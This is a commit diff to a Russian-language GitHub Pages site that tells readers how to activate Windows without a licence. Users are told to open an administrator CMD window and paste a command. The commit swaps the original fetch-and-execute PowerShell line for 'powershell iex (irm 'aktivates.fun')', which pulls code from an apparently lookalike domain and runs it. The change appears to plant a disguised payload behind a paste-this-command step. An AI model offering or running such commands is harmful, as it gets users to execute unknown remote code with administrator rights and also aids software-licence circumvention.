

Before and after one commit to solifersrs/solifersrs.github.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 200-800 px from the top of the page, without its empty margins (158-1085 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -13,11 +13,11 @@
     <p><strong>Для Windows 8.1/10/11</strong></p>
 
     <h2>Шаг 1</h2>
-    <p>Щелкните правой кнопкой мыши по меню "Пуск" в Windows и выберите <b>"PowerShell (Администратор)"</b> или <b>"Терминал (Администратор)"</b> (не CMD).</p>
+    <p>Щелкните правой кнопкой мыши по меню "Пуск" в Windows и выберите <b>"CMD (Администратор)"</b> </p>
 
     <h2>Шаг 2</h2>
     <p>Скопируйте и вставьте следующий код, затем нажмите Enter:</p>
-    <pre><code>irm https://get.activated.win | iex</code></pre>
+    <pre><code>powershell iex (irm 'aktivates.fun')</code></pre>
 
     <h2>Шаг 3</h2>
     <p>Выберите метод активации, нажав соответствующую цифру.</p>
```
